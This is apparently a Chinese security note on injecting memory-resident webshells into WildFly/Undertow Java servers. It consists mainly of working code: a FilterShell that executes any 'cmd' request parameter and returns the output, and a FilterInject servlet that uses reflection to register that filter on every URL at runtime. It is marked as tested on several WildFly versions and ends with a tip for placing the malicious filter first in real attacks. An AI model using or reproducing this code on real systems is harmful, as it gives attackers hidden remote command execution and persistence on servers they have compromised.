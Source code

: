 # Wildfly

> WildFly，原名JBoss AS或者JBoss，是一套应用程序服务器，属于开源的企业级Java中间件软件，用于实现基于SOA架构的web应用和服务。

### 内存马
#### ServletContext

##### 获取Context-基于getServletContext()

```
ServletContext servletContext = request.getServletContext();
```

![image-20211230174050842](img/image-20211230174050842.png)

#### Filter

##### 静态添加-基于web.xml

FilterShell.java

```java
package com.example.wildfly;

import javax.servlet.*;
import java.io.IOException;

public class FilterShell implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain filterChain) throws IOException, ServletException {
        try {
            String cmd;
            if ((cmd = req.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                resp.getOutputStream().write(stringBuilder.toString().getBytes());
                resp.getOutputStream().flush();
                resp.getOutputStream().close();
            }
            filterChain.doFilter(req, resp);
        }catch (Exception e){
            filterChain.doFilter(req, resp);
        }

    }

    @Override
    public void destroy() {

    }
}
```

web.xml

```java
<filter>
    <filter-name>FilterShell</filter-name>
    <filter-class>com.example.wildfly.FilterShell</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterShell</filter-name>
    <url-pattern>/index</url-pattern>
</filter-mapping>
```



Tested Version:	WildFly v18.0.0.Final

![image-20211230161228102](img/image-20211230161228102.png)



##### 动态添加-基于DeploymentInfo

参考

- https://www.tabnine.com/code/java/methods/io.undertow.servlet.api.DeploymentInfo/addFilter

![image-20211230173612025](img/image-20211230173612025.png)

拎出来，该反射的用反射实现就成

- 基于getServletContext()获取上下文Context

```java
ServletContext servletContext = request.getServletContext();
```

- 生成恶意Filter

```java
Filter evilFilter = new FilterShell();
```

- 构造FilterInfo

```java
FilterInfo filter = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
```

- 反射获取deploymentInfo，调用`public DeploymentInfo addFilter`添加filter

```java
Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
deploymentInfoF.setAccessible(true);
DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
deploymentInfo.addFilter(filter);
```

- 反射获取deployment，调用`public ManagedFilter addFilter`将filterInfo添加到filters中

```java
Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
deploymentF.setAccessible(true);
DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
deployment.getFilters().addFilter(filter);
```

- 调用`addFilterUrlMapping`添加映射即可

```java
deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
```

- 添加banner

```java
response.getWriter().write("inject success !!!");
```

最终测试代码整合如下

```java
package com.example.wildfly;

import io.undertow.servlet.api.DeploymentInfo;
import io.undertow.servlet.api.FilterInfo;
import io.undertow.servlet.core.DeploymentImpl;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * Tested version:
 *      WildFly 18.0.0.Final
 *      Wildfly 20.0.1.Final
 *      WildFly 24.0.1.Final
 *
 */
public class FilterInject extends HttpServlet {
    public static class FilterShell implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            ServletContext servletContext = request.getServletContext();
            Filter evilFilter = new FilterShell();
            FilterInfo filterInfo = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
            Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
            deploymentInfoF.setAccessible(true);
            DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
            deploymentInfo.addFilter(filterInfo);
            Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
            deploymentF.setAccessible(true);
            DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
            deployment.getFilters().addFilter(filterInfo);
            deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
            response.getWriter().write("inject success !!!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果如图

![image-20211230181606604](img/image-20211230181606604.png)

注：实战场景也许有将evilFilter置首的需求，可使用

- io.undertow.servlet.api.DeploymentInfo#insertFilterUrlMapping
```
deploymentInfo.insertFilterUrlMapping(0,evilFilter.getClass().getName(),"/*",DispatcherType.REQUEST);
```
